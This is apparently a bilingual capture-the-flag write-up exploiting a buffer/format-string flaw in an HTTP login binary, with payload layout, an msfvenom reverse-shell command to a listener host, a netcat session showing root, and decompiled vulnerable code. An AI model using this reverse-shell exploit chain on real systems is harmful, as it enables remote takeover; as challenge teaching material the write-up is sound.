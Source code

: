 Deuxième requête :
- username = 'ok'
- password = shellcode + 'a'*(230-size(shellcode)) + ret_leak_addr + 2 (+ 2 pour sauter le 'ok')

Pour créer notre shellcode, nous utilisons `msfvenom` pour générer un reverse shell en x64. De plus, comme nous passons par HTTP, nous devons éviter les caractères `\x00`, `\x0d` et `\x0a`:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.0.15 LPORT=4444 -b "\x00\x0d\x0a" -f py -o shellcode.txt
```

On lance `netcat` en écoute sur un terminal :
```bash
$ nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 172.17.0.2 43064
whoami
root
```
Puis sur un autre terminal :
```bash
python sol.py 
buffer addr :  0x769ffc7ff420
```

## Write-up EN
We have a binary and a URL. If we visit the URL, we can see that we have access to the `/` and `/login` endpoints. Nothing interesting for now, so let's take a look at the binary.

First, we see that it's an ELF x86_64 binary with PIE, no stack canary, and no NX. Analyzing the binary, we discover that when we attempt to log in via a `POST` request to `/login`, it calls the `iterate_post` function, which copies our `username` into a `50-byte` variable and our `password` into a `300-byte` variable :
```c
undefined8 iterate_post(long param_1,undefined8 param_2,char *param_3)

{
  int iVar1;
  char *param_7;
  ulong param_9;
  
  iVar1 = strcmp(param_3,"user");
  if (iVar1 == 0) {
    if ((param_9 == 0) || (0x32 < param_9)) {
      *(undefined *)(param_1 + 4) = 0;
    }
    else {
      snprintf((char *)(param_1 + 4),0x32,param_7); //username
    }
  }
  else {
    iVar1 = strcmp(param_3,"password");
    if (iVar1 == 0) {
      if ((param_9 == 0) || (300 < param_9)) {
        *(undefined *)(param_1 + 0x36) = 0;
      }
      else {
        snprintf((char *)(param_1 + 0x36),300,param_7); //password
      }
    }
  }
  return 1;
}
```